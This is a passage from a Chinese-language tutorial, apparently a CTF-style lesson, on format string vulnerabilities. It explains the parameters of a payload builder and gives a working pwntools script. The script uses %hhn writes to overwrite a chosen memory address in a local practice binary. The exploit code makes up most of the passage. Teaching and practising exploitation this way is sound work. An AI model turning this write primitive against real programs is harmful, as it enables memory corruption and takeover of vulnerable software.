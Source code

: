 其中每个参数的含义如下  
```
offset 表示要覆盖的地址最初的偏移
size 表示机器字长
addr 表示将要覆盖的地址。
target 表示我们要覆盖为的目的变量值。

```  
  
对应的exp如下  
```
from pwn import *

def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
        fmtstr = "%0c"
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr


def fmt_str(offset, size, addr, target):
    payload = b""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
            payload += p64(addr + i)
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> (i * 8)) & 0xff, offset + i).encode()
        prev = (target >> (i * 8)) & 0xff
    return payload


sh = process('./format2')
payload = fmt_str(6, 4, 0x0804c028, 0x12345678)
print(payload)
sh.sendline(payload)
print(sh.recv())
sh.interactive()

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib72aMEYwlDkodmibATPt3lNT8yZhp0fMmiapwZaLwmLn2ic6HDEjBsRwGuhA/640?wx_fmt=png&from=appmsg "")  
  
小结：  
1. 覆盖内存三步走，确定覆盖地址，确定相对偏移，进行覆盖  
  